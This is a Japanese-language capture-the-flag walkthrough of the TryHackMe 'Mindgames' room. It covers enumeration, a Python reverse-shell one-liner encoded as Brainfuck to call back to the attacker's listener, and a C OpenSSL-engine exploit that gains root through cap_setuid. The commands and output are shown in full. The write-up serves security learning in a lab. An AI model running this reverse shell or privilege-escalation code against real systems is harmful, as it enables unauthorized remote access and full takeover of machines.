 # Mindgames CTF

https://tryhackme.com/room/mindgames

## Enumeration

```shell
TARGET=10.201.99.237
sudo bash -c "echo $TARGET   mindgames.thm >> /etc/hosts"
```

### ポートスキャン

```sh
rustscan -a $TARGET

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 60
80/tcp open  http    syn-ack ttl 60
```

bf以外のAPIエンドポイントを探すが、bf以外見つからない。

```sh
root@ip-10-201-47-89:~# ffuf -u http://mindgames.thm/api/FUZZ -X POST -d "data" -c -w /usr/share/wordlists/SecLists/Fuzzing/1-4_all_letters_a-z.txt -fc 404

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : POST
 :: URL              : http://mindgames.thm/api/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Fuzzing/1-4_all_letters_a-z.txt
 :: Data             : data
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response status: 404
________________________________________________

bf                      [Status: 200, Size: 0, Words: 1, Lines: 1]
:: Progress: [475254/475254] :: Job [1/1] :: 10696 req/sec :: Duration: [0:00:58] :: Errors: 0 ::
```

全く分からない・・・

https://tryhackme.com/room/wonderland を先に完了することを強くお勧めするという記述を見かけたので、それに従って後回し。  
→ クリアして戻ってきた。

昨日はトップページに記載されているコードを貼り付けただけだったので、別の場所から持ってきた、ABC と出力するコードを試してみる。

```
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++.+.+.>++++++++++.
```

すると、このエラー。Pythonが動いていることが分かる。

```
Program Output:
Traceback (most recent call last):
  File "<string>", line 1, in <module>
NameError: name 'ABC' is not defined
```

Hello, World と表示するコードを、別のサイトで実行してみたところ、

```
+[------->++<]>++.++.---------.+++++.++++++.+[--->+<]>+.------.++[->++<]>.-[->+++++<]>++.+++++++..+++.[->+++++<]>+.------------.---[->+++<]>.-[--->+<]>---.+++.------.--------.-[--->+<]>+.+++++++.>++++++++++.
```

下記のように変換された。

```
print("Hello, World")
```

つまり、Brainfuckの実行結果がPythonコードになっていたらそのまま実行されることが分かった。

Pythonのリバースシェルコードを、

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.85.243",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")
```

[brainfuck のコードに変換](https://copy.sh/brainfuck/text.html)して送信。

シェル取得成功！

```sh
$ nc -lnvp 8888         
listening on [any] 8888 ...
connect to [10.13.85.243] from (UNKNOWN) [10.201.22.75] 54158
$ id
id
uid=1001(mindgames) gid=1001(mindgames) groups=1001(mindgames)
```

## 権限昇格

openssl に cap_setuid がついている？

```sh
mindgames@mindgames:~$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/openssl = cap_setuid+ep
/home/mindgames/webserver/server = cap_net_bind_service+ep
```

https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/ から拝借（unistd.hインクルードは追加した）

```c
#include <openssl/engine.h>
#include <unistd.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

kaliでコンパイル

```sh
$ gcc -fPIC -o openssl-exploit-engine.o -c openssl-exploit-engine.c

$ gcc -shared -o openssl-exploit-engine.so -lcrypto openssl-exploit-engine.o

$ ls
openssl-exploit-engine.c  openssl-exploit-engine.o  openssl-exploit-engine.so
```

ターゲットにコピーしてエクスプロイト。root昇格成功！

```sh
es@mindgames:~$ openssl req -engine ./openssl-exploit-engine.so
root@mindgames:~# id
uid=0(root) gid=1001(mindgames) groups=1001(mindgames)
```

## 振り返り

- 掲載されていたbrainfuckコードの実行結果が、まさかPythonコードに変換されていたとは盲点だった。まさにマインドゲーム。
- スタックしたら列挙を徹底的にやれというのはミスリードだったと思う。
- openssl, setsuid のエクスプロイトは初見。
